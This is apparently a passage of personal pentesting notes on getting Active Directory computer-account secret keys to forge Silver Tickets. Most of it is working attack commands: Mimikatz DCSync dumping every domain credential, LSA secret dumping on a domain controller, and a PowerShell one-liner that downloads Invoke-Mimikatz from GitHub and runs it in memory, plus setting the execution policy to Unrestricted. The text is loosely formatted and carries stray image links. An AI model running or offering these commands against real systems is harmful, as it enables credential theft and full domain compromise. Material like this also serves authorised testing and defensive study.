




Obtain Computer Accounts secret key
GitHub Invoke-Mimikatz.ps1:
https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1Computer/machine
Services are hosted on the machine itself, this mean that to create a Silver
Ticket we need the associated Computer Account’s
secret keyWe can
recognize Computer Accounts because usually when listed they all end with the dollar($) sign.
•
Perform DCsync (as seen also
here)
We need to have an account with rights to perform domain replication(always
here
for more)
PS> . .\Invoke-Mimikatz.ps1 #load Mimikatz PS script
PS> invoke-mimikatz -command '"lsadump::dcsync /domain:daniele.local /all"'
  The
PowerShell one line is:
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"lsadump::dcsync /domain:daniele.local /all"'
•
lsadump 1) If we want execute lsadump on a DC(purpose testisting)
we have to enable the execution of scripts to load the PS script of Mimikatz
PS> Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
2) Obtain Computer Account
secret key.
If we execute this
command from a computer of the domain we have to specify the “ComputerName” of the
DC
PS> . .\Invoke-Mimikatz.ps1 #load Mimikatz PS script
PS> invoke-mimikatz -command '"lsadump::lsa /inject"' -ComputerName <hostnameDomainController> #/inject option more secure(less crashes)
#than /patch option
 